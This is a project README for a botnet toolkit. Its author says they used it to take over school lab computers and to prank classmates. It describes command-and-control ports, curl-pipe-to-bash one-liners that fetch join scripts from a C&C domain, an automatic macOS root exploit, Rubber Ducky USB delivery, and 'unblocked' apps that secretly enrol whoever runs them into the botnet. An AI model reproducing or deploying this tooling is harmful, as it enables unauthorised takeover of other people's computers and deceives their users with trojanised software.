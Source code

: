 # net
Some helpful scripts for building and managing small botnets.

## Why I wrote this
I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the hacking class in which I partook. Such behavior was encouraged, and I did not violate any rules.

I also used this code to prank a few of my classmates in my Hon. Chemistry 10 class.

Please note that I strictly use this code for pranks and for educational purposes. I do not run a DDoSsing botnet or other such illegal operation and do not condone the use of this code to run such an operation.

## Compatible Operating Systems
* macOS/OS X - on 10.11 (El Capitan), exploit will be used to gain a root shell and payload will be automatically delivered. For other versions, root must be obtained manually.
* Debian-based GNU/Linux - Tested on Kali Linux and Raspbian, should work on other distros. Root exploit isn't automatic on any Linux, so you'll need to already have root access.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes, such as new nodes' joining signals, updates on connection state, and other data. All requests to the server are printed to the terminal, and important ones are written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
For Macs, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download and decrypt an exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet.

Some code to use a Rubber Duck USB as a delivery mechanism for Macs can be found [here](https://github.com/ErikBoesen/duck).

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Some code to use a Rubber Duck USB as a delivery mechanism for Linux can be found [here](https://github.com/ErikBoesen/duck-kali).

Here are simple one-liners to join the botnet (I recommend purchasing a simple domain for easy C&C):

Mac:
```sh
curl -L [domain]:2042/mac/join.sh |bash
```
Linux:
```sh
curl -L [domain]:2042/linux/join.sh |bash
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

This code is intended for use with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

### Apps
The `apps` directory contains some "unblocked" versions of various applications. These versions will work on secured MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
